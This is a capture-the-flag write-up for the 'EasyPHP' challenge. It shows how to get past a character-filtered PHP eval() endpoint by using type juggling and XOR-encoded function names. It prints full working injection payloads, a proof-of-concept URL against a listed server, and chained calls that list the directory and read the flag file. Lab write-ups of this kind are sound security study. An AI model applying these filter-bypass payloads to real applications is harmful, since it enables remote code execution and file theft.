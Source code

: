 ##EasyPHP (871 points)

###Description
Don't try to run any Linux command, just use all the PHP functions you know to get the flag
http://165.22.57.95:8000/

###First look
Visiting given URL gives us a look at the source file:
```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```
So there are two conditions we have to satisfy in order to eval our code. 
Analysis of `preg_match` condition let us determine all the characters and php functions
we can explicitly use without any encoding. 

I made an assumption, that php configuration is default, so to have first look-around
I parsed result of `get_defined_functions()` php function using given regex condition.
This gives us following set of functions:

```
bcmul
rtrim
trim
ltrim
chr
link
unlink
tan
atan
atanh
tanh
intval
mail
min
max
```

At a first glance, functions `chr` and `intval` look promising - we could possibly craft
both characters and numbers. However, to do so, we need numbers to craft strings from (as we cant use any string quotes)
e.g: `chr(asciicode)`.

###Looking for a right path
How can we generate numbers then? There comes PHP syntax and behaviour with help!
Basically in PHP strings have to be quoted using `"` or `'`.
Although those characters are restricted by regex condition, PHP acts in pretty weird way, if we don't quote string -
it assumes we've simply forgotten to quote it, produces notice and creates string anyway 
(only a-ZA-Z characters are valid in this case). Also, notice can be easily suppressed using `@` which is permitted by regex.

How can we get number from string, though? In this case we can simply use PHP's ~~amazing~~ type juggling:
```
$a = !!@i;
echo $a; // produces boolean(true)
```
String `i` is casted to **false** via `!` operator, then negated by another `!` and we have logical **true**.
Booleans are casted to integer, when any arithmetic is used on them, so we can produce any number we want!
For example:
```
echo (!!@i + !!@i) ** (!!@i + !!@i + !!@i + !!@i); //outputs 2^4 = 16
```

Cool! Now we can create any number and one-char string using `chr(asciinumber)` function.

Another usable PHP feature in our case is that we can call functions using strings.
For example

`"phpinfo"();` equals `phpinfo();`

Now we have one-char-strings and ability to call functions using strings. There are not much one-char functions though -
to be specific there's only one: `_()` which is alias for `gettext()` function which is used to translate strings.
Not very useful.

The plan now is to find a way to create string - either by concatenating one-letter strings or any method. 
I've spent long hours trying to figure out how to concatenate strings without using `.` operator
(which is exactly string concatenation operator, but forbidden by regex), but I've been failing and failing...

After hours of struggle, the very next morning I've re-analysed regex condition once again (for like 10th time), 
and focused on operators allowed. Those are:
`['!', '%', '+', '-', '*', '/', '>', '<', '?', '=', ':', '@', '^']`

Eventually I noticed something interesting in PHP documentation:
https://www.php.net/manual/en/language.operators.bitwise.php
> If both operands for the &, | and ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string. In all other cases, both operands will be converted to integers and the result will be an integer.

This is exactly what we need. `^` stands for bitwise XOR, and if applied on strings, it XORs char by char.
I have also tried out some XOR results, and it turned out, that it is possible to create lowercase characters
by XORing uppercase character with a number, for example:
```php
echo @ASD^"123"; //produces string 'paw'
```
We already know how to create string using only permitted characters, and also how to create any number we want.
If only number was string representation of integer, we could determine pairs of `Uppercase letter ^ [0-9]` which XORED
result in ANY functions names!

Next step is to create string representation for crafted number. 
Again, PHP type juggling arrives on a white horse yelling for attention:
```
var_dump(trim(123)); //produces string(3) "123"
```
`trim(string $str)` function takes string for argument, and if integer provided, simply casts it to string and returns
it trimmed - this is our way to convert crafted numbers to strings.

###Exploitation
Off we go, ready and steady to begin exploitation. I've written script which simply iterates through available characters
and helps me to find possible `Letter ^ [0-9]` pairs for each character in provided function name and further generates 
payload which is encoded function name string. Having this I generated `phpinfo();` string:

```
"AQAQVQV" ^ "1918879" //produces 'phpinfo'
Payload: (AQAQVQV^trim(((((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i+!!@i)))+(((!!@i+!!@i))**((!!@i)))+((!!@i)))))();
```
If you paste payload into php script, this will simply call `phpinfo();`. We're home!
Let's try injecting this into challenge code. The result is...
> you are so close, omg

Of course, I've forgotten about second condition which counts unique characters in our payload.
My payload has 15 unique characters, while it accepts only <=13. Let's try to reduce those characters.

Firstly, it's safe to remove all `@` characters, since it doesn't change anything - just suppresses notices.
Fine, this is one character less. Let's try to encode our string once more with less unique characters.

To clarify how the script works and decisions here, this is sample output which shows us possibilities of encoding:
```
p: |A ^ 1|B ^ 2|C ^ 3|H ^ 8|I ^ 9|
h: |Q ^ 9|X ^ 0|Y ^ 1|Z ^ 2|
p: |A ^ 1|B ^ 2|C ^ 3|H ^ 8|I ^ 9|
i: |Q ^ 8|X ^ 1|Y ^ 0|Z ^ 3|
n: |V ^ 8|W ^ 9|X ^ 6|Y ^ 7|Z ^ 4|
f: |Q ^ 7|R ^ 4|T ^ 2|U ^ 3|V ^ 0|W ^ 1|
o: |V ^ 9|W ^ 8|X ^ 7|Y ^ 6|Z ^ 5|
```
Those are possible pairs to encode given character. In order to minimise unique characters, we should choose either:
* characters which already exist in our payload (TRIM)
* minimum number of characters with which we can encode all chars (re-use already chosen characters)

This way, we encode `phpinfo` as `AYAYYRY ^ 1110746`, ant thus generate payload with less then 14 unique chars:
```
(AYAYYRY^trim(((((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i)))+(((!!i+!!i))**((!!i))))))();
```

Aaaaaand, we get `phpinfo()` output!

POC:
```
http://165.22.57.95:8000/?_=(AYAYYRY^trim(((((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i))))))();
```
Also, it's worth to mention, that the only char we have to urlencode is `+` sign - if we urlencode all the characters,
we might get `414 request-uri too large` for larger payloads.

###Looking for flag
To be honest, I was sure I'm gonna already get the flag at this point. Obviously I was wrong, so I continued research.
The very first idea was to print content of current directory (which is often place where flag is stored).

In order get dir contents, we have to encode few functions
```
scandir(string $dir) // returns array of $dir content
getcwd()             // returns current dir path
var_dump($var)       // outputs $var content of any type (may be array from scandir)
```
So following string is needed:
```
var_dump(scandir(getcwd()));
```

Again, we encode our stuff, put it into GET parameter and...:
```
array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" [3]=> string(34) "n0t_a_flAg_FiLe_dONT_rE4D_7hIs.txt" }
```

No more words are needed, we simply encode:
```
var_dump(file_get_contents(end(scandir(getcwd()))));
```
and get the flag:
```
string(34) "ISITDTU{Your PHP skill is so good}"
```
